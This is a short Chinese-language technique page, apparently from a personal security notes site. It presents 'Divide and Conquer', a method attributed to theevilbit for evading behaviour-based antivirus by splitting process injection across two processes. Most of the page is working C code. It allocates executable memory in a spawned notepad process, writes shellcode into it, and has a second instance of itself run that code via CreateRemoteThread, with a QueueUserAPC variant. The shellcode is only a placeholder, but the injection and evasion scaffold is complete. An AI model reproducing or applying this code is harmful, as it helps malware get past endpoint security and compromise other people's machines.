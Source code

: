 # Divide and Conquer

##  简介

看到了一种比较有意思的手法，现在的杀软会关注函数的执行链， [theevilbit](https://gist.github.com/theevilbit)公开了一种通过不同进程分离执行API，绕过基于行为的AV检测。

常见的行为检测会有监控堆栈的调用链和hookapi记录行为，这种分离执行方式都能绕过。

## 流程

1. 创建傀儡进程
2. 向傀儡进程写入payload
3. 创建同文件进程传入pid
4. 通过pid打开傀儡句柄
5. 创建远程线程

## 代码

```text


#include <stdio.h>
#include <windows.h>
unsigned char shellcode[] =
"\xfc78\x00";

int main(int argc, char* argv[]) {

    if (argv[1]==NULL)
    {
        STARTUPINFOA si = { 0 };
        si.cb = sizeof(si);
        PROCESS_INFORMATION pi = { 0 };

        CreateProcessA(NULL, (LPSTR)"notepad", NULL, NULL, FALSE, NULL, NULL, NULL, &si, &pi);
        VirtualAllocEx(pi.hProcess, (PVOID)0x0000480000000000, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
        WriteProcessMemory(pi.hProcess, (PVOID)0x0000480000000000, shellcode, sizeof(shellcode), NULL);

        char cmd[MAX_PATH] = {0};
        wsprintfA(cmd, "%s %d", argv[0], pi.dwProcessId);

        CreateProcessA(NULL, (LPSTR)cmd, NULL, NULL, FALSE, NULL, NULL, NULL, &si, &pi);
    }
    else
    {
        HANDLE hProcess =  OpenProcess(PROCESS_ALL_ACCESS, NULL, atoi(argv[1]));
        CreateRemoteThread(hProcess, 0, 0, (LPTHREAD_START_ROUTINE)0x0000480000000000, 0, 0, 0);
    }
    
    
    return 0;
}

```

![](../.gitbook/assets/image%20%28242%29.png)

## 同理

```text
    if (argv[1]==NULL)
    {
        STARTUPINFOA si = { 0 };
        si.cb = sizeof(si);
        PROCESS_INFORMATION pi = { 0 };

        CreateProcessA(NULL, (LPSTR)"notepad", NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);
        VirtualAllocEx(pi.hProcess, (PVOID)0x0000480000000000, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
        WriteProcessMemory(pi.hProcess, (PVOID)0x0000480000000000, shellcode, sizeof(shellcode), NULL);
        char cmd[MAX_PATH] = {0};
        wsprintfA(cmd, "%s %d", argv[0], pi.dwThreadId);
        QueueUserAPC((PAPCFUNC)0x0000480000000000, pi.hThread, NULL);
        CreateProcessA(NULL, (LPSTR)cmd, NULL, NULL, FALSE, NULL, NULL, NULL, &si, &pi);
    }
    else
    {
        HANDLE hThread = OpenThread(THREAD_ALL_ACCESS, NULL, atoi(argv[1]));
        ResumeThread(hThread);
    }
    
```

![](../.gitbook/assets/image%20%28241%29.png)

## LINK

{% embed url="https://gist.github.com/theevilbit/073ca4eb15383eb3254272fc24632efd" %}



